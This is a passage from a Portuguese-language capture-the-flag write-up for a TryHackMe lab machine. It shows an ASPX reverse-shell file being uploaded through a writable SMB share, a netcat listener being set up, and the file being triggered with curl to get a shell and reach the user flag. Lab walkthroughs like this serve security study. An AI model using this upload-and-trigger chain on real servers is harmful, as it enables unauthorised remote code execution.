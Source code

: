 ```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ smbclient \\\\10.10.226.231\\nt4wrksv                                         
Enter WORKGROUP\hastur's password: 
Try "help" to get a list of possible commands.
smb: \> put hastur.aspx 
putting file hastur.aspx as \hastur.aspx (3.4 kb/s) (average 3.4 kb/s)
smb: \> ls
  .                                   D        0  Tue Sep  7 19:25:30 2021
  ..                                  D        0  Tue Sep  7 19:25:30 2021
  hastur.aspx                         A     3411  Tue Sep  7 19:25:31 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4945229 blocks available
smb: \> 
```

Agora podemos setar nosso `netcat` na porta 8443 do nosso exploit e enviar um `curl` para o endereço.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ curl 'http://10.10.226.231:49663/nt4wrksv/hastur.aspx' 
```

E conseguimos nosso shell.

<img src="/thm/thm-relevant-4.png">

A flag `user.txt` se encontra no Desktop do usuário `Bob`.

```bash
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,225,691,648 bytes free
```
